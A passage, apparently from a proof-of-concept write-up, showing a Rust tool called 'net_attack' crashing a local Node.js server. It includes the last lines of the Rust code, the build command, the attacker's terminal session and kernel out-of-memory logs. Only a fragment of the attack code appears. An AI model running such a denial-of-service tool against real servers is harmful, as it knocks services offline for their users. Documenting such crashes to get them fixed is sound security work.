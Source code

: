```
    for handle in handles {
        handle.await.unwrap();
    }
```

#### run

```
cargo build
```

### output

#### server

```
node test.js # now wait for attacker to run
memory allocation of 4294967295 bytes failed
Aborted (core dumped)
```

#### attacker

```
(cmd)root@localhost:~/net_attack# ps -ef | grep "node"
root      622235  619278  0 12:07 pts/4    00:00:00 node test.js
root      622426  565054  0 12:07 pts/3    00:00:00 grep --color=auto node
(ins)root@localhost:~/net_attack# pstree -p 622235
node(622235)─┬─{node}(622236)
             ├─{node}(622237)
             ├─{node}(622238)
             ├─{node}(622239)
             ├─{node}(622240)
             ├─{node}(622241)
             └─{node}(622242)
(ins)root@localhost:~/net_attack# ./target/debug/net_attack 
working on localhost:10000
localhost:10000 took 2512 kb of data to explode the server
(cmd)root@localhost:~/net_attack# pstree -p 622235
(ins)root@localhost:~/net_attack# ps -ef | grep "622235"
root      622446  565054  0 12:08 pts/3    00:00:00 grep --color=auto 622235
```

#### dmesg

```
[25332975.711693] oom-kill:constraint=CONSTRAINT_NONE,nodemask=(null),cpuset=/,mems_allowed=0,global_oom,task_memcg=/user.slice/user-0.slice/session-51052.scope,task=npm ci,pid=561123,uid=0
[25332975.711736] Out of memory: Killed process 561123 (npm ci) total-vm:1456584kB, anon-rss:311600kB, file-rss:128kB, shmem-rss:0kB, UID:0 pgtables:4316kB oom_score_adj:0
[25333014.835316] Adding 2097148k swap on /swapfile2g.  Priority:-3 extents:22 across:20447200k SSFS          
[25333464.439782] systemd-journald[3612200]: Failed to create new system journal: No space left on device     
[25333464.482234] systemd-journald[3612200]: Failed to open system journal: No space left on device           
[25333464.490041] systemd-journald[3612200]: Failed to open system journal: No space left on device           
[25333464.496164] systemd-journald[3612200]: Failed to open system journal: No space left on device           
[25333524.489081] systemd-journald[3612200]: Failed to open system journal: No space left on device (Dropped 9647 similar message(s))
[25333524.495573] systemd-journald[3612200]: Failed to open system journal: No space left on device           
[25333524.502151] systemd-journald[3612200]: Failed to open system journal: No space left on device           
```